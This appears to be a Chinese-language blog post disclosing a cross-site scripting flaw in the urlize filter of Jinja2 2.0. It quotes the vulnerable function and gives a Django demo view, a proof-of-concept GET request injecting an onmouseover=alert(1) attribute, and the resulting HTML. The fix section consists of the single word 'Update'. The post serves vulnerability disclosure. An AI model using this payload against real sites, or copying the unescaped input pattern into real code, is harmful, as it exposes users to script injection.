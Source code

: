 ```yaml
---
layout: post
title: Jinja2 2.0 /utils.py urlize vulnerability
---
```

## 1. Jinja2

> Jinja2(http://jinja.pocoo.org/)是基于python的模板引擎，功能比较类似于于PHP的smarty，J2ee的Freemarker和velocity。 它能完全支持unicode，并具有集成的沙箱执行环境，应用广泛。

## 2. Description

问题出现在Jinja2(https://github.com/mitsuhiko/jinja2/tree/2.0) 2.0版本中，其中对urlize处理不当导致模板层使用处存在跨站脚本漏洞的产生。

## 3. Vulnerability

漏洞文件 /jinja2/utils.py 157-198:

    def urlize(text, trim_url_limit=None, nofollow=False):
        """Converts any URLs in text into clickable links. Works on http://,
        https:// and www. links. Links can have trailing punctuation (periods,
        commas, close-parens) and leading punctuation (opening parens) and
        it'll still do the right thing.

        If trim_url_limit is not None, the URLs in link text will be limited
        to trim_url_limit characters.

        If nofollow is True, the URLs in link text will get a rel="nofollow"
        attribute.
        """
        trim_url = lambda x, limit=trim_url_limit: limit is not None \
                             and (x[:limit] + (len(x) >=limit and '...'
                             or '')) or x
        words = _word_split_re.split(text)
        nofollow_attr = nofollow and ' rel="nofollow"' or ''
        for i, word in enumerate(words):
            match = _punctuation_re.match(word)
            if match:
                lead, middle, trail = match.groups()
                if middle.startswith('www.') or (
                    '@' not in middle and
                    not middle.startswith('http://') and
                    len(middle) > 0 and
                    middle[0] in string.letters + string.digits and (
                        middle.endswith('.org') or
                        middle.endswith('.net') or
                        middle.endswith('.com')
                    )):
                    middle = '<a href="http://%s"%s>%s</a>' % (middle,
                        nofollow_attr, trim_url(middle))
                if middle.startswith('http://') or \
                   middle.startswith('https://'):
                    middle = '<a href="%s"%s>%s</a>' % (middle,
                        nofollow_attr, trim_url(middle))
                if '@' in middle and not middle.startswith('www.') and \
                   not ':' in middle and _simple_email_re.match(middle):
                    middle = '<a href="mailto:%s">%s</a>' % (middle, middle)
                if lead + middle + trail != word:
                    words[i] = lead + middle + trail
        return u''.join(words)

words = _word_split_re.split(text) 对传值text进行简单的正则处理，_word_split_re = re.compile(r'(\s+)')。
随后words进入循环for i, word in enumerate(words)处理后return u''.join(words)。

## 4. demo

    views.py:
    def testtest(request):
        text = request.GET['bb2']
        return render(request, 'test.html', {'text': text})

    temp.html:
        {% raw %}{{ text | urlize }}{% endraw %}

```
GET: http://localhost/?bb2=test@beebeeto.com"/onmouseover=alert(1)//
```

![demo](http://www.hackersoul.com/img/media/jinja2_2_0_urlize_alert.png)

django views.py print:

    Django version 1.6.1, using settings 'fuzzing.settings'
    Starting development server at http://0.0.0.0:8000/
    Quit the server with CONTROL-C.
    [u'<a href="mailto:test@beebeeto.com"/onmouseover=alert(1)//">test@beebeeto.com"/onmouseover=alert(1)//</a>']

## 5. fix

Update